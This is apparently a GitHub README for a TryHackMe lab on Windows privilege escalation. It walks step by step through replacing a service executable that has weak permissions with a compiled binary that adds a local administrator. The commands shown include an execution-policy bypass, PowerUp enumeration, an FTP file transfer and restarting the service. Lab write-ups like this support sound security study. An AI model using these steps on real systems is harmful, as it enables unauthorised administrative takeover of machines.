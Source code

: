 # service-escalation-executable-files

*credit to THM* | https://tryhackme.com/room/windowsprivescarena

1) Start PowerShell:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user> powershell -ep bypass`

2) Run *PowerUp.ps1*:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`PS C:\Users\user> . ./PowerUp.ps1`
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`PS C:\Users\user> Invoke-AllChecks`

* Note that the 'Everyone' user group has full permissions on the 'filepermservice.exe' service executable.

3) Start *pyftpdlib* on Kali:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$ python3 -m pyftpdlib -p 21 --write`

* Note: if pyftpdlib is not installed do the following:

[![Image of install](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/install.png)](#)

4) Copy *windows_service.c* from windows machine:

[![Image of ftp](https://github.com/kam1n0/service-escalation-executable/blob/master/tmp_upload/ftp.png)](#)

* Observe *windows_service.c* was received by the FTP server on Kali

[![Image of upload](https://github.com/kam1n0/service-escalation-executable/blob/master/tmp_upload/upload.png)](#)

5) Edit *windows_service.c* to include the command to add a new user:

[![Image of edit](https://github.com/kam1n0/service-escalation-executable/blob/master/tmp_upload/edit.png)](#)

6) Compile *windows_service.c*:

[![Image of compile](https://github.com/kam1n0/service-escalation-executable/blob/master/tmp_upload/compile.png)](#)

* Note: install *gcc-wingw-w64* if it is not installed

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$ sudo apt-get install gcc-mingw-w64`

7) Transfer *filepermservice.exe* to windows victim machine:

[![Image of transfer](https://github.com/kam1n0/service-escalation-executable/blob/master/tmp_upload/transfer.png)](#)

8) Copy *filepermservice.exe* to C:\Program Files\File Permissions Service:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> cp filepermservice.exe C:\Program Files\File Permissions Service`

9) Start *filepermsvc* service:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> sc start filepermsvc`

10) Confirm that the user was added to the local administrators group by typing the following:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> net localgroup administrators`
